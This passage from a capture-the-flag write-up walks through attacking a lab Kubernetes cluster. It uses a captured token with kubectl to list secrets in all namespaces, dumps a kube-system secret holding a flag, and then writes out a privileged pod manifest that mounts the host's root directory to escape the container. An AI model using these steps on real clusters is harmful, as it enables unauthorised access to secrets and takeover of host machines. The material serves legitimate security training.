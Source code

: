 The `secrets` resource looks interesting.

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify get secrets --all-namespaces  
NAMESPACE         NAME                                                 TYPE                                  DATA   AGE
[...]
kube-system       flag3                                                Opaque                                1      459d
```

Found `flag3`! Let's extract it!

**flag3.txt:**
```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# kubectl --server https://$RHOSTS:6443 --token {Redacted_Token} --insecure-skip-tls-verify get secrets flag3 -n kube-system -o yaml
apiVersion: v1
data:
  flag3.txt: {Redacted}
kind: Secret
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"flag3","namespace":"kube-system"},"stringData":{"flag3.txt":"flag{Redacted}"},"type":"Opaque"}
```

Then, we can create a `pod.yaml` file and mounting the root directory:

- Create a `pod.yaml` file:

**pod.yaml:**
```yaml       
apiVersion: v1
kind: Pod
metadata:
  name: pod
  labels:
    app: pod
spec:
  containers:
  - name: pod
    image: gitea/gitea:1.5.1
    imagePullPolicy: IfNotPresent
    volumeMounts:
    - name: hostvolume
      mountPath: /pod
    ports:
    - containerPort: 80
    securityContext:
     privileged: true
  volumes:
  - name: hostvolume
    hostPath:
      path: /
```
